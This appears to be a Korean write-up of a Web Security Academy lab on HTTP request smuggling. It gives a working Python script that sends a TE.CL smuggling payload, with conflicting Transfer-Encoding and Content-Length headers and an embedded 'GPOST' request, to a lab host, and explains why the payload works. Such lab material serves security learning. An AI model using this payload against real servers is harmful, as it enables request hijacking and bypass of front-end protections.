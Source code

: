 ``` python
import socket
import requests
import ssl

HOST = "ac051ff81f715a8e8012640a002d00f9.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()

    return data

second_request  = b'GPOST / HTTP/1.1\r\n'
second_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
second_request += b'Content-Length: 10\r\n'
second_request += b'\r\n'
second_request += b'x=1'

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: 4\r\n'
first_request += b'Connection: keep-alive\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'\r\n'
first_request += hex(len(second_request))[2:].encode()+b'\r\n'
first_request += second_request
first_request += b'\r\n'
first_request += b'0\r\n\r\n'


smuggle_request = first_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```

Front-end 서버에서 `Transfer-Encoding`을 확인하고 Back-end에서 `Content-Length`를 확인하기 때문에, `0\r\n\r\n`까지 보내놓고, `Content-Length`로 원하는 부분까지 잘라서 사용하면 됩니다. 

`GPOST`로 요청을 보내야하기 때문에 `GPOST` 메소드를 사용하는 요청 하나를 chunk로 만들어 놓고, Back-end에서 처리할 때 그 전까지만 사용하면, `GPOST / HTTP/1.1` 이후는 사용되지 않고 남아있기 때문에 다음 요청의 앞부분에 붙게 됩니다.
